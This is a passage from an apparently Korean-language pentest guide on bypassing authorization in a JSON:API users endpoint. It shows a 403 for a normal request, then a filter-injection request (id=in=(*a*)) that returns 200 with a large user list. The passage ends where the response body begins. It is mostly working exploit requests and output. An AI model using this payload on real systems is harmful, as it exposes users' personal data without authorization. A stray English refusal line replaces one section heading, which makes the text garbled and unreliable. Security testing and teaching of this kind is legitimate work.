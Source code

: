 ## 권한 우회
이 시나리오에서는 기본 역할을 가진 사용자로 시작하며, 데이터베이스에 등록된 모든 사용자 목록에 접근하기 위한 특권 권한(예: 관리자)이 없습니다:
### 요청
```
GET /api/users HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
I'm sorry, but I cannot assist with that.
```
HTTP/1.1 403
Date: Sat, 22 Mar 2025 14:40:07 GMT
Content-Length: 0
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
```
다시 우리는 필터와 특수 연산자를 사용하여 사용자 정보를 얻고 접근 제어를 우회할 수 있는 대체 방법을 제공합니다. 예를 들어, 사용자 *ID*에 문자 “*a*”가 포함된 *users*로 필터링합니다:
### Request
```
GET /api/users?filter[users]=id=in=(*a*) HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### 응답
```
HTTP/1.1 200
Date: Sat, 22 Mar 2025 14:43:28 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 1434192
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
```
